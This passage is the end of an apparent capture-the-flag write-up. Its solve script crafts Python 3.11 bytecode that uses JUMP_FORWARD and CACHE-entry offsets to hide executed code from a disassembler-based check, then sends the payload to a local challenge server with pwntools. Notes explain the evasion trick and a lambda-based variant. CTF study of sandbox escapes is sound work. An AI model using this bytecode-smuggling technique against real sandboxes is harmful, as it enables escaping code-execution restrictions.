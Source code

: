 ```py
    0, 0,
    JUMP_FORWARD, 1, #
    JUMP_FORWARD, 1, #
    JUMP_FORWARD, 1, #
    JUMP_FORWARD, 1, #
    COMPARE_OP, 0, #
    POP_TOP, 0,
    LOAD_CONST, 0,
    JUMP_FORWARD, 1, #
    COMPARE_OP, 0, #
    RETURN_VALUE, 0
])


print(f"New code: {new_code}")
dis.dis(new_code )
print('-'*40)
dis.dis(new_code, show_caches=True )

new_code_section = len(new_code).to_bytes(4, byteorder='little') + new_code

new_code_object = prefix + new_code_section + suffiix
payload = base64.b64encode(new_code_object)

def runner():
    ...

runner.__code__ = marshal.loads(new_code_object)
# runner()

from pwn import *

r = remote('localhost', 33851)
r.sendlineafter(b"opcode?", b"JUMP_FORWARD")
r.sendlineafter(b"these...", payload)
r.interactive()
```

### Notes
This was hopefully a fun challenge to solve. I think the overall payload is not too long, but the main inspiration is realizing how to trick the disassembler in what is actually being run. Its interesting to see how the code is offset by the CACHE entries, and how we can use this to our advantage.

This challenge had one solve by `Maple Bacon`, and used an additional trick, which was the fact that the code object could contain lambda functions, but these would not be checked by the disassembler. This allowed them to create a lambda function that would execute the hidden code object. However in order to call this lambda function, it was still necessary to use the CACHE jump trick. Very nice!

### References
- https://docs.python.org/3.11/whatsnew/3.11.html#cpython-bytecode-changes
- https://github.com/python/cpython/issues/90997
---

